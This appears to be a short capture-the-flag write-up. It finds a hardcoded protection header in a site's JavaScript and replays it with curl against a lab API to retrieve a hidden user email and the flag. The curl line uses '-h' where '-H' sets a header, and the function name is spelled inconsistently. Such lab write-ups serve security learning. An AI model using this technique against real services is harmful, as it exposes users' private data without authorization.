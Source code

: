 
Check out the user profile section, user email is hidden. Inspect the source, in ``custom.js``, there is a function called ``retriveEmail``, it send a ``GET`` request to api with parameter ``act=getemail``, could it get us email of the user?

```
function retrieveEmail(e){var t=new XMLHttpRequest;t.open("GET","api/action.php?act=getemail",!0),t.setRequestHeader("X-SAFEPROTECTION","enNlYW5vb2Zjb3Vyc2U="),t.onreadystatechange=function(){this.readyState===XMLHttpRequest.DONE&&this.status},t.send()}
```

Try to request the api with ``curl`` and header for protection.

```
curl "http://35.227.24.107/9259a99869/api/action.php?act=getemail" -h "X-SAFEPROTECTION:enNlYW5vb2Zjb3Vyc2U="
```

Wow! The flag is in response.
